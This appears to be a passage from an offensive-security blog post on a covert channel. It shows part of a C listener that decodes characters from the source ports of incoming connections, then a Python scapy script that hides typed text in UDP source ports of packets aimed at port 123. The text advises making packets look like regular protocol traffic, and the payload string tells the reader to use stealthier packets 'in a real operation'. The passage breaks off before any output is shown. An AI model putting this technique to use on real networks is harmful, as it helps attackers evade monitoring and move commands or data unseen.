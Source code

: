 ```c
			{
				rinaddr.s_addr = htonl(event->header.remoteAddrV4);
				ft.dwHighDateTime = event->header.timeStamp.dwHighDateTime;
				ft.dwLowDateTime = event->header.timeStamp.dwLowDateTime;
				//printf("[%s] - %x - %x\n", inet_ntoa(rinaddr), event->header.localPort, event->header.remotePort);
				char partialOut[3] = { 0 };
				memcpy(partialOut, &event->header.remotePort, 2);
				printf("%s", partialOut);
			}
		}
	}
}





int main(int argc, char** argv[]) {
	ft.dwHighDateTime = 0;
	ft.dwLowDateTime = 0;
	for (;;) {
		detectHit();
		Sleep(1000);
	}
	return 0;
}
```

Now we can try to send packets against a predefined port (for example, 123/UDP), encoding a message inside the source ports. Keep in mind that we don't care about the content because our information is carried as the source port (this means: please, try to make the payload as similar as possible to a real and "regular" packet based in the protocol that you are trying to simulate).

```python
 import sys
 from scapy.all import *
 
 
 def textToPorts(text):
     chunks = [text[i:i+2] for i in range(0, len(text), 2)]
     for chunk in chunks:
         send(IP(dst=sys.argv[1])/UDP(dport=123,sport=int("0x" + chunk[::-1].encode("hex"), 16))/Raw(load="Use stealthier packet in a real operation, pls"))
 
 if __name__ == "__main__":
     while 1:
         command = raw_input("Insert text> ")
         textToPorts(command)
```

We can see how it worked like a charm:
